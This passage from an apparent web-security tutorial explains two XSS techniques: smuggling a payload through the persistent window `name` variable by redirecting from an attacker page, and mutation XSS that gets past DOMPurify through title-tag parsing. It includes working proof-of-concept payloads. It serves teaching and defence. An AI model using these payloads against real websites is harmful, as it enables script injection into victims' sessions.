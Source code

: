 In fact, we can even go one step further and use the global `name` variable which is controllable by an attacker. So global, that it **persists between navigations**. When a victim visits our site like in an XSS scenario, we can set the `name` variable to any payload we like and redirect to the vulnerable page to trigger it (see [this video](https://www.youtube.com/watch?v=3zShGLEqDn8) for more info and explanation):

{% code title="JavaScript Payload" %}
```javascript
location=name
```
{% endcode %}

{% code title="Attacker's page" %}
```html
<script>
  name = "javascript:alert()";
  location = "http://target.com/?xss=location%3Dname";
</script>
```
{% endcode %}

### Mutation XSS & DOMPurify

Mutation XSS is a special kind of XSS payload where you are **abusing a difference in the checking environment vs. the destination environment**. There are some special browser rules for when HTML finds itself in certain tags, that are different from inside other tags. This difference can sometimes be abused to create a benign payload in the checking context but will be mutated by the browser in a different context into a malicious payload.

Let's take the following example: The [DOMPurify](https://github.com/cure53/DOMPurify) sanitizer is used to filter out malicious content that could trigger JavaScript execution, which it does perfectly on the following string:

{% code title="DOMPurify" %}
```html
<p id="</title><img src=x onerror=alert()>"></p>
```
{% endcode %}

There is a `<p>` tag with `"</title><img src=x onerror=alert()>"` as its `id=` attribute, nothing more, and nothing that would trigger JavaScript surely. But then comes along the browser, which sees this payload placed into the DOM, inside the existing `<title>` tag:

<pre class="language-html" data-title="Browser DOM"><code class="lang-html">&#x3C;title>
<strong>    &#x3C;p id="&#x3C;/title>&#x3C;img src=x onerror=alert()>">&#x3C;/p>
</strong>&#x3C;/title>
</code></pre>

Perhaps surprisingly, it is **parsed differently** now that it is inside of the `<title>` tag. Instead of a simple `<p>` tag with an `id=` attribute, this turned into the following after mutation:

{% code title="Browser DOM after mutation" %}
```html
<html><head><title>
    &lt;p id="</title></head><body><img src="x" onerror="alert()">"&gt;<p></p>
</body></html>
```
{% endcode %}
